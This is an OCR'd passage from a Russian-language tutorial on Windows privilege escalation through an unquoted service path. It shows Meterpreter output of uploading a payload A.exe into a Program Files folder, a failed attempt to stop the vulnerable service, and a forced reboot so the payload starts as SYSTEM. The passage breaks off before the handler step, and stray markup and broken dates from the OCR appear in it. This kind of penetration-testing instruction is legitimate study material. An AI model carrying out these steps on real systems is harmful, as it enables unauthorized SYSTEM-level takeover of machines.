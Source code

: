 Скопируем наш payload в `C:\Program Files (x86)\Program Folder`:

```cmd
meterpreter > getuid
Server username: TARGETMACHINE\testuser
meterpreter > cd "../../../Program Files (x86)/Program
Folder"
meterpreter > ls
Listing: C:\Program Files (x86)\Program Folder
==============================================
Mode Size Type Last modified ---- ---- Name ---- -----------------
40777/rwxrwxrwx 21:43:28 -0500 0 dir A Subfolder
meterpreter > upload -f A.exe
uploading : A.exe -> A.exe[/li]
uploaded : A.exe -> A.exe[/li][/list]
meterpreter > ls
Listing: C:\Program Files (x86)\Program Folder
2017-01
04==============================================
Mode Size Type Last modified Name -----------------------------
40777/rwxrwxrwx 21:43:28 -0500 0 2017-01-04 A Subfolder
100777/rwxrwxrwx 22:01:32 -0500 dir 73802 fil 2017-01
04
A.exe
meterpreter >
```

При следующем старте службы A.exe должен запуститься с правами SYSTEM. Давайте проверим — рестартанем уязвимую службу:

```cmd
meterpreter > shell
Process 1608 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\Desktop>sc stop "Vulnerable Service"
sc stop "Vulnerable Service"
[SC] OpenService FAILED 5:
Access is denied.
C:\Users\testuser\Desktop>
```

«Доступ запрещен». Ничего страшного, у нас просто нет прав на остановку и запуск службы. Однако мы можем рестартануть целевую машину, выполнив команду shutdown:

```cmd
C:\Users\testuser\Desktop>shutdown /r /t 0
shutdown /r /t 0
C:\Users\testuser\Desktop>
192.168.2.40 - Meterpreter session 8 closed. Reason:
Died[/li]
```

Как видим, наша сессия оборвалась. После перезагрузки целевой машины наш payload должен запуститься с правами SYSTEM. Чтобы увидеть результат, нам необходимо запустить хэндлер:
